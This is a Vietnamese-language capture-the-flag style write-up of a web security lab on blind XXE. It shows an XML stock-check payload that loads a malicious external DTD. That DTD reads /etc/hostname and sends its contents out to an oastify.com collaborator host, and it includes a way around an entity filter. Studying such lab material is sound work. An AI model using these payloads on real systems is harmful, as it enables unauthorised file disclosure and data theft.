








# Writeup LAB Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Goal
To solve the lab, exfiltrate the contents of the `/etc/hostname` file.
## Khai thác.
Trang chủ

Trong bài thực hành trước, chúng ta đã phát hiện ra lỗ hổng tấn công XXE trong tính năng "Kiểm tra kho hàng" , tính năng này phân tích đầu vào XML và trả về bất kỳ giá trị không mong muốn nào trong phản hồi

Để test sự khả năng XML cho phép truyền thực thể vào tôi sẽ sử dụng kí tự lạ như `&xxe;` kết quả nhận thấy thông báo lỗi không cho phép `"Entities are not allowed for security reasons"` vậy với như vậy nó đã chặn kí tự `&` vậy kí tự `%` thì sao bằng cách tôi truyền `%xxe;` vậy chúng ta có thể bypass bằng `%` thay `&`

Với LAB này, việc truy xuất tệp tin diễn ra theo hướng “mù” (blind): nội dung không được hiển thị trực tiếp trong phản hồi. Vì vậy, ở thử thách này ta cần khai báo một external entity trỏ đến tệp cần đọc (hoặc tài nguyên cần truy xuất), sau đó lợi dụng quá trình XML parser resolve entity để “bơm” nội dung đó vào một request gửi ra ngoài (out-of-band) tới máy chủ do mình kiểm soát, từ đó trích xuất dữ liệu. <br>
Chúng ta cùng thực hiện nó <br>

Chúng ta truyền mã thực thi như sau
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; leak SYSTEM "http://nlcz84g46nsb3cwdgfooboy7jyprdi17.oastify.com/?x=%file;'">">
%eval;
%leak;
```

Ở mã này tôi sẽ định nghĩa một thực thể tham số XML có tên là `file` chứa nội dung mục tiêu thực thi `/etc/hostname` <br>
Sau đó tôi khai báo tiếp một thực thể tham số XML có tên là `eval` chứa một khai báo động là `leak` khai báo động này chứa thực thể đánh gía bằng cách thực hiện một yêu cầu HTTP tới máy chủ web tấn công của tôi trong đó giá trị file được thwucj thi tệp `/etc/hostname` <br>
Sử dụng `eval` thực thể này dấn đến việc khai báo động `leak` <br>
Sau đó sử dung `leak` thực thể đó để giá trị nó được đánh giá bằng cách URL chỉ định. <br>
và tiếp theo trong check stock tôi sẽ định nghĩa một thực thể DTD bên ngoài đưa mã thực thi bên ngoài như sau:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo[
<!ENTITY % xxe SYSTEM "https://exploit-0a6c004204ac787980e8e82a01070067.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
Lúc này khi parse XML nó sẽ khiến yêu cầu HTTP thực thi và trong yêu cầu đó nó sẽ load dữ liệu DTD bên ngoài chúng ta đã lưu trữ mã thực thi `/etc/hostname`

Và lúc này máy chủ web tấn công ta đã load được tệp thực thi `/etc/hostname`

Tiến hành submit và hoàn thành LAB
